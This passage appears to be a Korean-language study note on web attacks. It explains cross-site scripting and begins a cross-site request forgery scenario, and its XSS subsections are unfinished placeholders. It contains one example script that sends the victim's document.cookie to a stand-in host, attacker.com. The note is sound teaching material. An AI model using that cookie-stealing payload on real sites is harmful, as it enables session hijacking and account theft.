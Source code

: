 #### ⚠️ Cross-site Scripting (XSS)

먼저, 앞서 설명한 JavaScript와 Cookie에 대해서 상기하고 넘어가자.
- JavaScript: Web Page에서 더 Dynamic한 상호작용을 할 수 있도록 한다.
- Cookie: Web Server가 사용자에 대한 이전의 정보를 기억할 수 있게 하는 것

이제 본격적으로 Cross-site Scripting에 대해서 알아보자.

지금까지의 취약점이랑은 살짝 다른게
앞에서는 Attacker에 의해 Server-side Code에서 문제가 발생했지만,
XSS에서는 Attacker에 의해 Client-side Code쪽에서 문제가 발생한다.

Attacker가 Client-size Code에 다음과 같은 JS Code를 삽입한다고 생각해보자.
```js
<script>
window.location="http://attacker.com?" + document.cookie
</script>
```

그러면 Session ID (SID) Cookie가 Attacker가 구축한 Website로 날아가게 된다.
- 만약 Attacker가 `index.php`라는 ``$_GET['SID']`를 Dump하는 페이지를 구축해놨으면 SID가 그 사이트에 기록되게 된다.
- 그리고 Attacker는 이 정보를 바탕으로 악의적인 짓을 저지를 수 있게된다.  

<br>

여기까지가 공격의 개괄적인 시나리오이다.  

<br>

🔫 **Stored XSS (a.k.a Persistent XSS)**  
`✏️ 정리 필요!`  

<br>

🔫 **Reflected XSS**  
`✏️ 정리 필요!`  
#### ⚠️ Cross-site Request Forgery (CSRF)  

<br>

이제 마지막 공격 방식에 대해서 알아보자.  

<br>

먼저 앞선 경우와 마찬가지로 Target Wdb Server를 하나 가정하고 시작하자.  
이 `abc.com`이라는 Target Web Server는 게시판 기능을 운영하고 있다.  
다음과 같음 HTTP Request를 보냄으로써 특정 게시글을 지우거나 수정할 수 있다.  
```  
USER -> abc.com?action=edit&num=105 -> SERVER
```  
타인이 내 Post를 Edit하려고 하면 막아야 할 것이다.  

<br>

공격자 Server도 가정하자.  
`puppy.com`이라는 Victim을 낚으려고 강아지 사진을 올려둔 사이트가 있다고 가정하자.  
이 `puppy.com`에 들어가면 Attacker의 Javascrpit Code가 실행이 될 것이다.  

<br>
